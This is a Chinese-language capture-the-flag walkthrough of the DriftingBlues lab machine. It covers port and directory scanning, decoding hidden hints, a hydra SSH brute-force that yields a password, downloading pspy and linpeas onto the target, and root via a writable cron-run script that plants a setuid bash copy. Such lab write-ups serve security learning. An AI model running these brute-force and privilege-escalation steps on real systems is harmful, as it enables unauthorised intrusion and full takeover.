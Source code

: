 ```
└─# nmap -p- -sV -A 192.168.0.102
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ca:e6:d1:1f:27:f2:62:98:ef:bf:e4:38:b5:f1:67:77 (RSA)
|   256 a8:58:99:99:f6:81:c4:c2:b4:da:44:da:9b:f3:b8:9b (ECDSA)
|_  256 39:5b:55:2a:79:ed:c3:bf:f5:16:fd:bd:61:29:2a:b7 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Drifting Blues Tech
MAC Address: 00:0C:29:1C:D8:6B (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### 对于80端口入手

```
└─# gobuster dir -u http://192.168.0.102 -w /usr/share/wordlists/dirb/big.txt -x php,txt,html,js,php.bak,txt.bak,html.bak,json,git,git.bak 
└─# nikto -host 192.168.0.102 
```

```
/css                  (Status: 301) [Size: 312] [--> http://192.168.0.102/css/]
/img                  (Status: 301) [Size: 312] [--> http://192.168.0.102/img/]
/index.html           (Status: 200) [Size: 7710]
/js                   (Status: 301) [Size: 311] [--> http://192.168.0.102/js/]
/secret.html          (Status: 200) [Size: 25]
/server-status        (Status: 403) [Size: 278]
```

发现 /secert.html 里面是 一句提示  dig.. deeper.. maybe you

知道了，是信息收集不够深

### 重点信息搜集：

查阅源码信息泄露：发现主页里有<!-- L25vdGVmb3JraW5nZmlzaC50eHQ= -->

一眼base64，这里练习用命令行解码

```
└─# echo 'L25vdGVmb3JraW5nZmlzaC50eHQ=' -n | base64 -d                                                
/noteforkingfish.txt base64: invalid input
```

一眼顶真，鉴定为ook，应该又是某种编码，试试解码

<img src=".\图片\Snipaste_2022-11-27_18-57-59.png" alt="Snipaste_2022-11-27_18-57-59" style="zoom:80%;" />

经过 (https://www.splitbrain.org/services/ook) 解码后得到  

my man, i know you are new but you should know how to use host file to reach our secret location. -eric

这时让我们用hosts绑定域名访问呢，在主页找到域名  driftingblues.box 然后我们再子域名爆破，目录遍历

```
└─# wfuzz -H 'HOST: FUZZ.driftingblues.box' -u 'http://192.168.0.102' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hw 53,570
```

命令后面53,570是排除常规返回word排除干扰

```
000008566:   200        5 L      4 W        24 Ch       "Test - Test" 
```

发现 test.driftingblues.box

```
└─# gobuster dir -u http://test.driftingblues.box -w /usr/share/wordlists/dirb/big.txt -x php,txt,html,js,php.bak,txt.bak,html.bak,json,git,git.bak  

/index.html           (Status: 200) [Size: 24]
/robots.txt           (Status: 200) [Size: 125]
```

发现robots.txt，康康 /ssh_cred.txt

<img src=".\图片\Snipaste_2022-11-27_19-16-26.png" alt="Snipaste_2022-11-27_19-16-26" style="zoom: 80%;" />

<img src=".\图片\Snipaste_2022-11-27_19-18-12.png" alt="Snipaste_2022-11-27_19-18-12" style="zoom:80%;" />

有个账号的密码为  ’1mw4ckyyucky‘ 再加个数字，账号在网站主页能找到  eric 或者 sheryl

我们编个字典让hydra去爆破ssh

```
└─# hydra -L users.txt -P password.txt -t 2 -vV -e ns 192.168.0.102 ssh

[22][ssh] host: 192.168.0.102   login: eric   password: 1mw4ckyyucky6
```

### ssh登录+提权

```
└─# ssh eric@192.168.0.102                                                                                255 ⨯
The authenticity of host '192.168.0.102 (192.168.0.102)' can't be established.
ECDSA key fingerprint is SHA256:2JuZ2nRTvrJ/9ovL0PbmrPY2kRzzkG/mxjl2qfWufdw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.102' (ECDSA) to the list of known hosts.
eric@192.168.0.102's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-123-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

eric@driftingblues:~$ 
```

接下来我们搞得专业点，用python开启web服务，直接下载wget主机信息探测的脚本，这样效率高，两个脚本

https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64

https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

```
eric@driftingblues:~$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
eric@driftingblues:~$ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

发现计划任务backup.sh

```
2022/11/27 15:06:01 CMD: UID=0    PID=19930  | /bin/sh /var/backups/backup.sh 
```

发现backup.sh里有 sudo /tmp/emergency

```
eric@driftingblues:~$ cat /var/backups/backup.sh
#!/bin/bash

/usr/bin/zip -r -0 /tmp/backup.zip /var/www/
/bin/chmod

#having a backdoor would be nice
sudo /tmp/emergency
```

修改/tmp/emergency，还可以修改为反弹shell命令

```
eric@driftingblues# cat /tmp/emergency 
#!/bin/bash
cp /bin/bash /tmp/getroot; chmod +s /tmp/getroot

eric@driftingblues:/tmp$ ./getroot -p
getroot-4.3# whoami
root
```

<img src=".\图片\Snipaste_2022-11-27_20-35-18.png" alt="Snipaste_2022-11-27_20-35-18" style="zoom:80%;" />

### 总结

信息搜集要仔细，可以从源码入手看看信息泄露，F12看看网站加载文件，常规子域名爆破，web上下文爆破

从网站主页搜集域名、站长账号啥的杂乱信息

ssh爆破，提权上脚本，计划任务提权